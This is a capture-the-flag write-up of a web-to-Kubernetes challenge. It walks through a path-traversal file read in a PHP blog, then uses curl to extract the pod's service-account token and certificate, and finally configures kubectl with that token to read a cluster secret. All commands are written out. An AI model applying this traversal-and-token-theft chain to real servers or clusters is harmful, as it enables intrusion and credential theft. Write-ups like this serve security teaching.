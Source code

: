 # Whale Blog

This was in the cloud section and the info was a strong hint that this involved Docker and a link to a website http://whale-blog.duc.tf:30000.

I spent a bit of time looking around the website and clicking on the available links. The other blogs on the site were being loaded by a query parameter in the URL `?page=page1`. Because I'm an optimistic soul, I immediately tried `?page=flag` which didn't get me a flag but did show me in the dev tools that the server tried to load the file specified in the query and printed the output as a comment in the HTML. The error message was
```
>Warning</b>:  file_get_contents(./page3): Failed to open stream: No such file or directory in <b>/var/www/html/index.php</b> on line <b>6</b><br />
```
From this, I wondered if I could get any other files in the server container. `?page=../../../etc/passwd` went very well and printed out the contents of `/etc/passwd` as a comment in the HTML. However, it didn't get me closer to finding a flag and I couldn't find an obvious `flag.txt` file in the container to read.

I decided to have a look at the volumes mounted onto the container and so put `?page=../../../proc/mounts`. This revealed a mount called `/run/secrets/kubernetes.io/serviceaccount`, indicating that the container was running on kubernetes and that was the service account details for the pod to authenticate with the kubernetes api-server.

This was very interesting, so I quickly looked up the general format of `/run/secrets/kubernetes.io/serviceaccount` and found out that it normally contains a `ca.crt` file and a `token` file, containing the certificate and token respectively. At this point I moved away from the browser and dev tools to make it a bit easier to copy the secrets out. Running
```
curl "http://whale-blog.duc.tf:30000/?page=../../../run/secrets/kubernetes.io/serviceaccount/ca.crt"
curl "http://whale-blog.duc.tf:30000/?page=../../../run/secrets/kubernetes.io/serviceaccount/token"
```
got me the certificate and the JWT token the server pod uses to connect to the api-server of the kubernetes cluster it runs in.

At this point I was theoretically able to connect to the kubernetes cluster running the site using the pod's credentials, however I didn't know where the api-server was. Fortunately there was a helping hand in the form of a comment in the web HTML: "I wonder if we will deploy this at whale-blog.duc.tf or at whale-endpoint.duc.tf", so I decided to give whale-endpoint.duc.tf a go. The kubernetes api-server normally serves out of port 443 so I ran
```
curl -X GET https://whale-endpoint.duc.tf/api/core/v1/secrets --insecure
```
which produced
```
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {

  },
  "status": "Failure",
  "message": "v1 \"secrets\" is forbidden: User \"system:anonymous\" cannot get resource \"v1\" in API group \"\" at the cluster scope",
  "reason": "Forbidden",
  "details": {
    "name": "secrets",
    "kind": "v1"
  },
  "code": 403
}
```
indicating I'd found my api-server. I then saved the token as $TOKEN and ran
```
curl -X GET https://whale-endpoint.duc.tf/api/core/v1/secrets --header "Authorization: Bearer $TOKEN" --insecure
```
for further confirmation before configuring kubectl to use this token and cluster and having a look around:
```
kubectl config set-credentials ductf --token=$TOKEN
kubectl config set-cluster ductf --insecure-skip-tls-verify --server=https://whale-endpoint.duc.tf
kubectl config set-context ductf --cluster=ductf --namespace=default --user=ductf
kubectl config use-context ductf
kubectl get secrets # showed a secret called nooooo-dont-read-me
kubectl get secret -o yaml nooooo-dont-read-me
```
I could get the base64 encoded version of the secret from the yaml of noooo-dont-read-me. Base64 decoding it produced the flag!

I really enjoyed this challenge but did have one pedantic niggle. It said in a few places that it's a Docker challenge but really it's a Kubernetes challenge :P
